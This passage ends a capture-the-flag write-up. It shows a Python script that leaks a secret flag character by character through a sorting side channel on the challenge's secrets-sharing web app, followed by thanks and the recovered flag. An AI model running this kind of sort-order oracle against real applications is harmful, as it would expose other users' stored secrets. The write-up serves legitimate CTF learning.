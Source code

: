 ```py
    found = False
    for j in range(34,127): # ASCII chars
        S_oracle.post(create_secrets_url,data={"title":"Flag","key":"Flag","secret":flag+chr(j)},verify=False,headers=headers)
        res = S_attackant.get(page_secrets+"?sort=shared_with.0.secrets.0",verify=False,headers=headers).text
        if res.index("Inso_Admin") < res.index("Worty2"): #found it!
            flag += chr(j-1)
            found = True
        id_secret = S_oracle.get(page_secrets,verify=False,headers=headers).text.split('id_secret_id" value="')[1].split('"')[0]
        S_oracle.post(delete_secrets,data={"secret_id":id_secret})
        if(found):
            break
    print(flag)

print(flag+"}")
```

You can find a video of the PoC [here](images/poc.mp4).

And we finally execute it on the challenge domain to recover the flag !

I would like to thanks my teammate "erdnaxe" which motivated me because I had finally given up this challenge, and which confirmed me on this track of exploit, and also the challenge author for this really cool side channel exploit :D

# Flag

`INS{C0ngr4tZ!_Expl0iting_dicts0rt1ng_L1ke_@_b055!!!}`